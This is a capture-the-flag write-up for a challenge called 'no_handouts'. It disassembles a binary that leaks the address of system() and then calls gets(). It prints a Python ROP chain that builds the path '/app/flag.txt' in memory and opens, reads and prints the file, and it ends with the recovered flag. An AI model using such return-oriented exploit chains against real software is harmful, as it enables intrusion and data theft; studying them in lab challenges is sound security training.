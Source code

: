 # no_handouts

This challenge provided no source code, but it did provide a binary `chall`.

Disassembling it, I saw that the `main` function called `vuln`, which is as follows:

```asm
<vuln>:
endbr64
push   %rbp
mov    %rsp,%rbp
sub    $0x20,%rsp
lea    0xe05(%rip),%rax    ; "system() only works if there's a shell in the first place!"
mov    %rax,%rdi
call   1080 <puts@plt>
mov    0x2dce(%rip),%rax   ; 3fe0 <system@GLIBC_2.2.5>
mov    %rax,%rsi
lea    0xe2c(%rip),%rax    ; "Don't believe me? Try it yourself: it's at %p"
mov    %rax,%rdi
mov    $0x0,%eax
call   10a0 <printf@plt>
lea    0xe48(%rip),%rax    ; "Surely that's not enough information to do anything else."
mov    %rax,%rdi
call   1080 <puts@plt>
lea    -0x20(%rbp),%rax
mov    %rax,%rdi
mov    $0x0,%eax
call   10b0 <gets@plt>
mov    $0x0,%eax
leave
ret
```

So this just says where `system` is, and then cals `gets` to provide a free buffer overflow.
It's also given that the flag is located at `/app/flag.txt`

Using the provided location of `system`, we know where `libc` is located. Thanks to this, we can open() the flag, read() its contents, and then puts() the result.

Here's the ROP chain that worked for me:

```python
start_addr = elf_libc.bss() # readable/writable section. We can use this as a buffer
filename = start_addr + 0x00
flag = start_addr + 0x20

flag_length = 50 # INCREASE IF NOT SUFFICIENT
rop_chain = [

             # build "/app/flag.txt" string
             pop_rax, libc + filename,
             pop_rdx_r12, 0x616C662F7070612F, 0, # /app/fla
             mov_at_rax_rdx,  # this gadget is mov qword ptr [rax], rdx ; ret
             pop_rax, libc + filename + 8,
             pop_rdx_r12, 0x7478742E67, 0,       # g.txt
             mov_at_rax_rdx,

             # open file
             pop_rdi, libc + filename,
             pop_rsi, 0,
             pop_rdx_r12, 0, 0,
             open_c,

             # read file
             pop_rdi, 3, # guess at fd, (first fd after STDIN, STDOUT, and STDERR)
             pop_rsi, libc + flag,
             pop_rdx_r12, flag_length, 0,
             read,

             # write value
             pop_rdi, libc + flag,
             puts,
            ]
```

After injecting that, I got this output: `bctf{sh3lls_ar3_bl0at_ju5t_use_sh3llcode!}`
As this flag says, this is not the only way this could've been solved.



